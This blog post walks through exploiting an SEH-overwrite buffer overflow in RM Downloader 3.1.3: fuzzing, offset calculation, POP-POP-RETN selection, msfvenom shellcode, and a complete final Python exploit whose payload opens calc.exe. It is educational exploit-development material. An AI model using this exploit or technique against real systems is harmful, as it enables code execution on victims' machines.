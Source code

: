 ```yaml
---
layout: post
title: RM Downloader 3.1.3 - 'Load' Structured Exception Handling Overwrite
date: 2020-04-21 23:22:00
categories: posts
comments: false
en: true
---
```


# Preamble

The other day, i was gathering through Exploit-DB as usual, when i came across with this [exploit](https://www.exploit-db.com/exploits/14081), interested, i was eager to know if i could find a vulnerability.
As a result of my success, i will explain the finding.

# The Bug

RM Downloader suffers from a Buffer Overflow and a Structured Exception Handling Overwrite when inputting long strings within the 'Load' parameter.

A small fuzzing script is generated:

```1
import struct 

buffer = "A" * 10000
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

Once the script is executed, the file is created:

![](/assets/img/Findings5/1.png)

In order to crash the application with the generated bytes, open the 'Load' tab, and paste the contents within the 'Load' parameter:

![](/assets/img/Findings5/2.png)

![](/assets/img/Findings5/3.png)

Once this is done, click OK. Two additional messageboxes may appear, just click OK.

![](/assets/img/Findings5/4.png)

After this is done the application successfully crashes:

![](/assets/img/Findings5/5.png)

Voila! The EIP has been successfully written. Moreover, the SEH Chains has suffered from an overwrite as well:

![](/assets/img/Findings5/6.png)

This application could easily be exploited with the use of a JMP/CALL ESP or PUSH ESP, RET. However, as like SEH Overwrites more, i will
perform one on this case.

A pattern is generated and saved into a file named "pattern":

```A
root@whitecr0wz:~/Exploit-Dev# msf-pattern_create -l 10000 > pattern 
root@whitecr0wz:~/Exploit-Dev# 
```

The contents of the file "pattern" are copied and pasted within the 'Load' parameter, repeting the process:

![](/assets/img/Findings5/7.png)

After the SEH Chain values have been overwritten, the nSEH value is copied:

![](/assets/img/Findings5/8.png)

The offset is calculated with msf-pattern_offset:

```A
root@whitecr0wz:~/Exploit-Dev# msf-pattern_offset -q 336F4C32 -l 10000 
[*] Exact match at offset 9008
root@whitecr0wz:~/Exploit-Dev# 
```

The PoC is updated:

```A
import struct 

buffer = "A" * 9008 + "BBBB" + "CCCC"
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

If the script works as intended, the nSEH value should be 42424242 (BBBB) and the SEH value 43434343 (CCCC):

![](/assets/img/Findings5/9.png)

Good, in an escenario like this, a [3-byte SEH Overwrite](https://whitecr0wz.github.io/posts/Exploiting-SEH-3-byte-Overwrite-on-Windows/) could be performed, in case there are no available addresses without a NULL-byte.

The modules are listed:

![](/assets/img/Findings5/10.png)

As seen, the module RDfilter03 does not have any kind of protections/mitigations. Moreover, the base address does not contain a NULL-
byte.

Listing the POP-POP-RETN sequences:

![](/assets/img/Findings5/11.png)

The first address (0x10031779) was chosen.

The PoC is updated:

```A
import struct 

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10031779)

buffer = "A" * 9008 + nseh + seh + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

After repeating the process, the SEH Chain values are overwritten as expected:

![](/assets/img/Findings5/12.png)

After pressing SHIFT+F9 (Run), the additional bytes are executed:

![](/assets/img/Findings5/13.png)

Shellcode is generated:

```A
root@whitecr0wz:~/Exploit-Dev# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 448 (iteration=0)
x86/alpha_mixed chosen with final size 448
Payload size: 448 bytes
Final size of py file: 2188 bytes
buf =  b""
buf += b"\x89\xe6\xdb\xd8\xd9\x76\xf4\x5d\x55\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x59\x6c\x6a\x48\x6b"
buf += b"\x32\x37\x70\x53\x30\x45\x50\x71\x70\x4c\x49\x79\x75"
buf += b"\x75\x61\x6b\x70\x32\x44\x4c\x4b\x72\x70\x74\x70\x6c"
buf += b"\x4b\x53\x62\x46\x6c\x6c\x4b\x33\x62\x45\x44\x6c\x4b"
buf += b"\x30\x72\x76\x48\x36\x6f\x6e\x57\x53\x7a\x64\x66\x70"
buf += b"\x31\x49\x6f\x4e\x4c\x75\x6c\x45\x31\x33\x4c\x67\x72"
buf += b"\x54\x6c\x71\x30\x4a\x61\x4a\x6f\x56\x6d\x46\x61\x59"
buf += b"\x57\x6a\x42\x59\x62\x66\x32\x73\x67\x6e\x6b\x66\x32"
buf += b"\x42\x30\x6c\x4b\x32\x6a\x45\x6c\x4e\x6b\x32\x6c\x56"
buf += b"\x71\x63\x48\x68\x63\x50\x48\x35\x51\x6e\x31\x72\x71"
buf += b"\x4c\x4b\x52\x79\x47\x50\x67\x71\x79\x43\x6e\x6b\x31"
buf += b"\x59\x64\x58\x5a\x43\x77\x4a\x32\x69\x4e\x6b\x65\x64"
buf += b"\x4e\x6b\x75\x51\x68\x56\x56\x51\x6b\x4f\x4c\x6c\x39"
buf += b"\x51\x38\x4f\x64\x4d\x35\x51\x4f\x37\x57\x48\x49\x70"
buf += b"\x51\x65\x59\x66\x55\x53\x71\x6d\x49\x68\x35\x6b\x73"
buf += b"\x4d\x45\x74\x63\x45\x6b\x54\x32\x78\x4e\x6b\x42\x78"
buf += b"\x36\x44\x56\x61\x48\x53\x43\x56\x6c\x4b\x46\x6c\x52"
buf += b"\x6b\x4c\x4b\x63\x68\x47\x6c\x47\x71\x48\x53\x4e\x6b"
buf += b"\x77\x74\x6e\x6b\x55\x51\x58\x50\x4f\x79\x63\x74\x45"
buf += b"\x74\x36\x44\x31\x4b\x31\x4b\x31\x71\x72\x79\x43\x6a"
buf += b"\x53\x61\x6b\x4f\x6b\x50\x63\x6f\x43\x6f\x42\x7a\x4c"
buf += b"\x4b\x65\x42\x7a\x4b\x4e\x6d\x53\x6d\x33\x5a\x57\x71"
buf += b"\x4e\x6d\x6d\x55\x4f\x42\x53\x30\x37\x70\x67\x70\x50"
buf += b"\x50\x73\x58\x50\x31\x4e\x6b\x42\x4f\x6d\x57\x49\x6f"
buf += b"\x78\x55\x6f\x4b\x69\x70\x75\x4d\x46\x4a\x77\x7a\x43"
buf += b"\x58\x6e\x46\x4e\x75\x6f\x4d\x4d\x4d\x79\x6f\x49\x45"
buf += b"\x55\x6c\x34\x46\x61\x6c\x76\x6a\x6b\x30\x39\x6b\x4d"
buf += b"\x30\x71\x65\x64\x45\x6f\x4b\x42\x67\x65\x43\x43\x42"
buf += b"\x42\x4f\x61\x7a\x45\x50\x31\x43\x6b\x4f\x7a\x75\x63"
buf += b"\x53\x33\x51\x62\x4c\x73\x53\x56\x4e\x51\x75\x31\x68"
buf += b"\x53\x55\x35\x50\x41\x41"
```

# EndGame

![](/assets/img/Findings5/14.png)


Final Code:

```A
import struct 

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
# Payload size: 448 bytes

buf =  b""
buf += b"\x89\xe6\xdb\xd8\xd9\x76\xf4\x5d\x55\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x59\x6c\x6a\x48\x6b"
buf += b"\x32\x37\x70\x53\x30\x45\x50\x71\x70\x4c\x49\x79\x75"
buf += b"\x75\x61\x6b\x70\x32\x44\x4c\x4b\x72\x70\x74\x70\x6c"
buf += b"\x4b\x53\x62\x46\x6c\x6c\x4b\x33\x62\x45\x44\x6c\x4b"
buf += b"\x30\x72\x76\x48\x36\x6f\x6e\x57\x53\x7a\x64\x66\x70"
buf += b"\x31\x49\x6f\x4e\x4c\x75\x6c\x45\x31\x33\x4c\x67\x72"
buf += b"\x54\x6c\x71\x30\x4a\x61\x4a\x6f\x56\x6d\x46\x61\x59"
buf += b"\x57\x6a\x42\x59\x62\x66\x32\x73\x67\x6e\x6b\x66\x32"
buf += b"\x42\x30\x6c\x4b\x32\x6a\x45\x6c\x4e\x6b\x32\x6c\x56"
buf += b"\x71\x63\x48\x68\x63\x50\x48\x35\x51\x6e\x31\x72\x71"
buf += b"\x4c\x4b\x52\x79\x47\x50\x67\x71\x79\x43\x6e\x6b\x31"
buf += b"\x59\x64\x58\x5a\x43\x77\x4a\x32\x69\x4e\x6b\x65\x64"
buf += b"\x4e\x6b\x75\x51\x68\x56\x56\x51\x6b\x4f\x4c\x6c\x39"
buf += b"\x51\x38\x4f\x64\x4d\x35\x51\x4f\x37\x57\x48\x49\x70"
buf += b"\x51\x65\x59\x66\x55\x53\x71\x6d\x49\x68\x35\x6b\x73"
buf += b"\x4d\x45\x74\x63\x45\x6b\x54\x32\x78\x4e\x6b\x42\x78"
buf += b"\x36\x44\x56\x61\x48\x53\x43\x56\x6c\x4b\x46\x6c\x52"
buf += b"\x6b\x4c\x4b\x63\x68\x47\x6c\x47\x71\x48\x53\x4e\x6b"
buf += b"\x77\x74\x6e\x6b\x55\x51\x58\x50\x4f\x79\x63\x74\x45"
buf += b"\x74\x36\x44\x31\x4b\x31\x4b\x31\x71\x72\x79\x43\x6a"
buf += b"\x53\x61\x6b\x4f\x6b\x50\x63\x6f\x43\x6f\x42\x7a\x4c"
buf += b"\x4b\x65\x42\x7a\x4b\x4e\x6d\x53\x6d\x33\x5a\x57\x71"
buf += b"\x4e\x6d\x6d\x55\x4f\x42\x53\x30\x37\x70\x67\x70\x50"
buf += b"\x50\x73\x58\x50\x31\x4e\x6b\x42\x4f\x6d\x57\x49\x6f"
buf += b"\x78\x55\x6f\x4b\x69\x70\x75\x4d\x46\x4a\x77\x7a\x43"
buf += b"\x58\x6e\x46\x4e\x75\x6f\x4d\x4d\x4d\x79\x6f\x49\x45"
buf += b"\x55\x6c\x34\x46\x61\x6c\x76\x6a\x6b\x30\x39\x6b\x4d"
buf += b"\x30\x71\x65\x64\x45\x6f\x4b\x42\x67\x65\x43\x43\x42"
buf += b"\x42\x4f\x61\x7a\x45\x50\x31\x43\x6b\x4f\x7a\x75\x63"
buf += b"\x53\x33\x51\x62\x4c\x73\x53\x56\x4e\x51\x75\x31\x68"
buf += b"\x53\x55\x35\x50\x41\x41"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10031779)

buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 5 + buf + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

